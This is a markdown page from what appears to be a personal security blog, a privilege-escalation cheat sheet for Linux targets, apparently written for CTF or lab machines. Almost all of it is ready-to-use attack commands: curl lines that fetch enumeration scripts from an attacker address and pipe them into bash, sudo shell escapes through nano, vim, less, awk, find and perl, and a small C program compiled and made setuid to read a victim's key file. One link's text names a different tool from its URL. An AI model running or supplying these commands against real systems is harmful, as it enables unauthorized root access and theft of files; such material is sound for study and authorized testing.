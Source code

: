 ```yaml
---
author: Marcos Azevedo
date: '2020-06-16T17:38:15-03:00'
linktitle: 'Cheat Sheet :: Privilege Escalation'
title: 'Cheat Sheet :: Privilege Escalation'
categories:
  - cheatsheet
  - exploitation-techniques
  - priv-escalation
tags:
  - cheatsheet
  - priv-escalation
  - exploitation-techniques
weight: 10
date updated: '2021-03-25T17:36:52-03:00'

---
```



## Using scripts to enum the machine
- [https://github.com/rebootuser/LinEnum](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- On the target's machine we can do:
```bash
$> curl 10.10.14.2/linpeas.sh | bash
$> curl 10.10.14.2/LinEnum.sh | bash
```

-----
## Nano privilege escalation
- This can be used to gain root access on the server.
```bash
sudo -u root /bin/nano /opt/priv
```

- Nano allows inserting external files into the current one using the shortcut.
```bash
Ctrl+R
```

/pics/nano-001.png

- The command reveals that we can execute system commands using **^X (Press Ctrl + X)** and enter the following command to spawn a shell.
```bash
Press Ctrl + X
reset; sh 1>&0 2>&0
```

/pics/nano-002.png

- Now we have a root shell.
/pics/nano-003.png

-----
## Sudo privilege escalation
### Listing allowed ``sudo`` commands
```bash
$> sudo -l
```

### Impersonating with ``sudo``
```bash
$> sudo -u victim command
```

### Escalating privileges with ``find`` command
```bash
$> sudo -u victim /usr/bin/find -exec /bin/bash \;
```

### Escalating privileges with ``vim`` editor
```bash
$> sudo -u victim /usr/bin/vim

# Inside the vim we can call a shell
:!/bin/bash
```

### Escalating privileges with  ``less`` command
- Open a file using less
```
$> sudo -u victim less /home/victim/key.txt
```

- Inside the less we can call a shell
```bash
!/bin/bash
```

### Escalating privileges with ``awk`` command
```bash
# Reading files with awk
$> sudo -u victim /usr/bin/awk '{print $1}' /home/victim/key.txt

# Executing command within awk
$> sudo -u victim /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

### Escalating privileges with ``chmod``

- Create the exploit to call a command
```bash
#include<stdio.h>

int main(void)
{
    system("cat /home/victim/key.txt");
}
```

- Compiling the exploit
```bash
$> cd /tmp
$> gcc exploit.c -o exploit
```

- Setting the __setuid__ and __setgid__ flags
```bash
$> sudo -u victim cp exploit exploit2
$> sudo -u victim chmod +xs exploit2
$> ./exploit2
```

### Escalating privileges with ``perl``
```bash
$> sudo -u victim perl -e 'exec "/bin/bash";'
```
